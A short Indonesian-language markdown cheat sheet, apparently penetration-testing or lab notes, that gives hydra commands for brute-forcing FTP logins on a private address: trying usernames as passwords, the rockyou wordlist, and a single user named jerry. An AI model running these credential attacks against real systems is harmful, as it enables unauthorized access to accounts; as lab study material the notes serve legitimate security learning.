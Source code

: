 ## Jika menemukan list username, coba brute force
Brute force username dan password dengan menggunakan wordlist yang sama. Cek apakah ada user yang menggunakan password sama dengan username
```
hydra -L users.txt -P users.txt 192.168.1.13 ftp
```
Jika tidak bisa , coba pakai rockyou
```
hydra -L users.txt -P rockyou.txt 192.168.1.13 ftp
```

## Brute Force single user

```
hydra -l jerry -P rockyou.txt 192.168.1.13 ftp
```